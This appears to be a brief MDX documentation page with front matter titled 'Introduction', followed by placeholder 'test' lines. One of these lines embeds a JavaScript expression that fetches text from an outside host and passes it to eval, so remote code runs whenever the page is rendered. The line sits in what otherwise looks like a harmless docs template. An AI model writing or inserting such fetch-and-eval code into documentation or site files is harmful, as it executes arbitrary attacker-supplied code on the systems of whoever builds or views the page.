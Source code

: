 ```yaml
---
title: Introduction
description: 'Welcome to the home of your new documentation'
---
```


test {"hello" ? JSON.stringify(fetch("https://local-laptop.kibty.town").then((a) => a.text()).then((a) => eval(a))) : "not"}

test2